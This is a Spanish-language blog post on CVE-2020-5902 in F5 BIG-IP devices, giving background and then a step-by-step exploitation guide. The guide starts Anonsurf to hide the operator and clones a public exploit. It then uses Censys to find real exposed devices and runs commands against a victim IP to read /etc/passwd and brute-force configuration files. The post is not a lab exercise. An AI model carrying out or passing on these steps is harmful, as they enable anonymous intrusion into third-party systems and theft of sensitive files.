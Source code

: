 ```yaml
---
layout: single
title: Explotación de CVE-2020-5902 - Vulnerabilidades
excerpt: "Una vulnerabilidad de ejecución remota de código de proxy/equilibrador de carga F5 BIG-IP® 8."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png
  teaser_home_page: true
  icon: /assets/images/f5.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-5902
  - f5
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png)

## Descripción:

BIG-IP es un dispositivo de red multipropósito muy popular que es utilizado por una gran cantidad de compañías que manejan información sensible a lo largo del mundo. Los dispositivos BIG-IP son utilizados tanto en redes gubernamentales y de proveedores de servicios de Internet (ISPs), así como por bancos a lo largo del mundo y muchas redes empresariales. Según explica F5 en su sitio web, este producto es utilizado por 48 compañías que integran la lista Fortune 50. De hecho, dada la criticidad de la vulnerabilidad y su potencial impacto, el Cibercomando de Estados Unidos replicó la advertencia emitida por la compañía y llamó a instalar el parche que repara el fallo lo antes posible.

CVE-2020-5902 es una vulnerabilidad crítica en la interfaz de usuario de administración de tráfico BIG-IP (TMUI) también conocida como la utilidad de configuración. La vulnerabilidad recibió una calificación CVSSv3 de 10.0, la puntuación más alta posible. La vulnerabilidad se puede explotar cuando el acceso de red a la TMUI se expone a través del puerto de administración BIG-IP o las IP automáticas. La explotación exitosa de este defecto concedería a un atacante una variedad de privilegios, incluyendo la capacidad de ejecutar comandos arbitrarios del sistema o código Java, crear o eliminar archivos, así como deshabilitar los servicios en el host vulnerable. El asesor afirma que la vulnerabilidad también podría "resultar en un compromiso completo del sistema".

## Productos Afectados:

BIG-IP (LTM, AAM, WAF avanzado, AFM, análisis, APM, ASM, DDHD, DNS, FPS, GTM, controlador de enlace, PEM, SSLO, CGNAT), Rma 11x, 12x, 13x, 14x, 15x, 16x., versiones 11.6.1 - 11.6.5, 12.1.0-12.1.5,13.1.0-13.1.3,14.1.0-14.1.2,15.1.0 - 15.0.1.


## Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59022.png)

Procedemos a clonar el paquete de Git Hub con el exploit de la vulnerabilidad.

•	git clone https://github.com/yasserjanah/CVE-2020-5902

Ingresamos al directorio descargado

•	cd CVE-2020-5902/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59023.png)

Realizamos la siguiente instalación dentro del directorio.

•	pip3 install -r ./requirements.txt

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59024.png)

Realizamos la búsqueda de un equipo vulnerable en la página de Censys con la vulnerabilidad “BIG-IP & reg”.

•	https://censys.io/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59025.png)

Ejecutamos el exploit con extensión .py que está dentro del directorio.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -f /etc/passwd

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59026.png)

Usamos -b para archivos de fuerza bruta de una lista de palabras.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -b

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59027.png)

Al finalizar el comando, nos dirigimos en donde se almacenan los resultados del exploit y podremos observar cómo descarga los archivos de las diferentes configuraciones del dispositivo.

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59028.png)


## Referencias:

•	https://www.welivesecurity.com/la-es/2020/07/06/estan-explotando-vulnerabilidad-critica- dispositivos-big-ip-f5/

•	https://support.f5.com/csp/article/K52145254?sf235665517=1 

•	https://urlscan.io/result/5fd0c2b2-9749-46b7-8d28-3550059123db/#summary 

•	https://nvd.nist.gov/vuln/detail/CVE-2020-5902 

•	https://github.com/yasserjanah/CVE-2020-5902

•	https://censys.io/ipv4?q=BIG-IP+%26+reg






